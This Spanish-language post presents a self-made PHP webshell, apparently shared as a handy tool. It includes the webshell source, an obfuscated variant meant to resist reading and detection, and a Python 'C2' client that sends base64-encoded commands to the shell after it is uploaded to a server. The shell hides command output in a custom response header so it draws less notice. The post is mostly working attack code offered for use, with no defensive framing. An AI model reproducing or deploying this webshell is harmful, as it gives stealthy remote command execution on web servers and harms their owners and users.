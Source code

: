 # WebShell

Os presento una pequeña herramienta que os podría ser útil.

Se trata de una webshell en php creada por mi.

```php
<?php
$v = 'W3lc0m3!'; $s = $_GET['s']; $c_d = base64_decode($s);
if ($c_d == $v) { $c_b64 =  $_GET['_']; $cmnd = base64_decode($c_b64);
$opt = `$cmnd`; $opt_b64 = base64_encode($opt); header('x: ' . $opt_b64);
} else { echo ''; }
?>
```

Esta pequeña webshell funciona de la siguiente manera:

En el código se ha fijado en una variable el valor de un “secreto”, en este caso `W3lc0m3!`. El funcionamiento del script solo funcionara si se envía a través de un parámetro llamado “s” el secreto encodeado en base64, de esta forma: `https://localhost/webshell.php?s=VzNsYzBtMyE=`

De esta forma, se entra en el condicional para que al añadir otro parámetro llamado “_” se ejecute el comando. Al igual que el parámetro anterior, este tiene que enviarse en base64 también, de la siguiente forma: `https://localhost/webshell.php?s=VzNsYzBtMyE=&_=d2hvYW1p`

Esta petición ejecutara el comando `whoami`, el servidor añadirá una nueva cabecera en la respuesta del servidor llamada “x” con el contenido del comando ejecutado en base64.

De esta forma somos “un poco” mas sigilosos y no hacemos tanto ruido en el servidor. 

Añado un código php ofuscado para que sea mas difícil la lectura del código.

```php
<?php goto HfT43; Occd3: $c_d = base64_decode($s); goto qJGNO; jda1x: $s = $_GET["\x73"]; goto Occd3; HfT43: $v = "\127\63\x6c\143\60\155\63\x21"; goto jda1x; qJGNO: if ($c_d == $v) { $c_b64 = $_GET["\137"]; $cmnd = base64_decode($c_b64); $opt = `{$cmnd}`; $opt_b64 = base64_encode($opt); header("\170\72\x20" . $opt_b64); } else { echo ''; } goto hDgCE; hDgCE: ?>
```

Una vez subido la webshell con éxito al servidor. Podemos utilizar el siguiente script de Python para ejecutar comandos cómodamente.

```python
#!python3

import requests, argparse, os, base64, binascii, signal

#Colores
class Color:
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'

# CTRL+C
def def_hundler(sig, frame):
    print(Color.YELLOW + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler)

def main(url,secret,cmd):
    secret_bytes = secret.encode('utf-8')
    e_secret = binascii.b2a_base64(secret_bytes, newline=False).decode()
    r = requests.get(url+f"?s={e_secret}+&_={cmd}")
    if "Passing null to parameter" in r.text:
        print(Color.RED + "El comando no es valido")
    else:
        output = base64.b64decode(r.headers['x'].encode('utf-8'))
        print(Color.BLUE + f"Comando ejecutado: \n")
        print(Color.GREEN + output.decode('iso-8859-1'))

def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-secret SECRET] \n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://wordpress.com/ -secret secret\n'
    return ussage

def arguments():
    parser = argparse.ArgumentParser(usage=usage(), description="Python3 C2")
    parser.add_argument('-url', dest='url', type=str, help='URL')
    parser.add_argument('-secret', dest='secret', type=str, default=False, help='Secret')
    return parser.parse_args()

if __name__ == '__main__':
    args = arguments()
    while True:
        cmd = input(Color.RED + "> ")
        cmd_bytes = cmd.encode('utf-8')
        e_cmd = binascii.b2a_base64(cmd_bytes, newline=False).decode()
        main(args.url, args.secret, e_cmd)
```

El uso del script es el siguiente:

`python.exe ./webshell.py -url "http://localhost/ofuscated.php" -secret W3lc0m3!`

![Untitled](/assets/images/WebShell/Untitled.png)

![Untitled](/assets/images/WebShell/Untitled%201.png)